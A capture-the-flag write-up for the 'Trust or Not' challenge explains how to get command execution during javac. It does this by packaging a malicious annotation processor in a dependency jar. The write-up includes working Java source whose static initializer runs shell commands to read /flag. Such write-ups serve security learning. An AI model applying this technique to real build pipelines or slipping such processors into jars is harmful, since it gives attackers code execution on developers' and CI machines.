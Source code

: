 # Trust or Not

Category: Misc, Pwn

Solves: 7

Solve by: braindead

Points: 357

---

# challenge description

> I just found a safe way to run untrusted Java code!
> 
> nc 139.224.248.65 1337
> 
> <attachment>

The remote accepts a single java source file (Main.java) and a jar file (dep.jar), and does this:

```
javac -cp dep.jar Main.java
java -cp .:dep.jar -Djava.security.manager -Djava.security.policy==/dev/null Main
```

# solution

Java's SecurityManager is slated for deprecation and historically had multiple vulns, but we are
not going to exploit it. Instead we will achieve RCE at "javac" stage: javac supports running
user defined annotation processors and those get automatically loaded from every jar on the classpath.

We define a class `FunProcessor`:

```java
package fun;

import javax.annotation.processing.*;
import javax.lang.model.element.*;
import java.util.*;

public class FunProcessor extends AbstractProcessor {
	static {
		try {
			byte[] b = new byte[10240];
			var n = Runtime.getRuntime().exec(new String[]{"sh", "-c", "ls -la /; ls -la; cat /flag"}).getInputStream().read(b);
			System.out.write(b);
		} catch (Exception e) { }
	}

	public boolean process(Set<? extends TypeElement> annotations, RoundEnvironment roundEnv)
	{
		return true;
	}
}
```

And put it in the dep.jar along with a service registration in `META-INF/services/javax.annotation.processing.Processor`, so that javac will load it (see Makefile).

With our dep.jar ready, we submit it with an arbitrary Main.java and our little "cat /flag" command will be execute
with no sandboxing what-so-ever.
